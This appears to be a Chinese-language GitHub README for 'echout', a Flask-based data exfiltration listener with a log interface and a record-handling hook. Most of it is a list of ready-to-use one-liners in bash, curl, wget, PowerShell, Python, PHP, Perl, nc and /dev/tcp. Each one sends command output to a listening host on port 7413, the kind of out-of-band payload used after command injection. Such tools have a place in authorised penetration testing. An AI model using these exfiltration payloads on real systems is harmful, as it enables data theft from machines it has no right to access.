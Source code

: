# echout

数据外带平台

[Releases](https://github.com/fb0sh/echout/releases)

# 友好的日志界面

<img width="2307" height="1375" alt="image" src="https://github.com/user-attachments/assets/ca705553-791c-49d6-9d03-753fce19e7d2" />

# 外带数据的方式
```bash
pwd | curl --data-binary @- http://0.0.0.0:7413/
wget --method=POST --body-data="$(pwd)" http://0.0.0.0:7413/ -O -
ls | powershell -c "irm -Uri http://0.0.0.0:7413/ -Method POST -Body ([Console]::In.ReadToEnd())"
python3 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send(b"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%b"%(len(b),b.encode()))'
python2 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%%s"%(len(b),b))'
php -r '$b=`pwd`; $s=fsockopen("0.0.0.0",7413); fwrite($s,"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".strlen($b)."\r\n\r\n$b");'
perl -e 'use IO::Socket::INET;$b=`pwd`;IO::Socket::INET->new(PeerAddr=>"0.0.0.0",PeerPort=>7413)->send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".length($b)."\r\n\r\n$b")'
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length:${#b}\r\n\r\n$b" | nc 0.0.0.0 7413
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length: ${#b}\r\n\r\n$b" > /dev/tcp/0.0.0.0/7413
curl http://0.0.0.0:7413/$(pwd)
```

# 可供编程的链式调用
```python
class EchoRecord:
    request: Request
    date: str
    ip: str
    data: str
    headers: str
```

```python
def handle_record(record: EchoRecord):
    print(record)
```

可以在此处进行后续的处理

# how to use?

1. 安装 python3
2. `pip install flask`
3. `python echout.py`
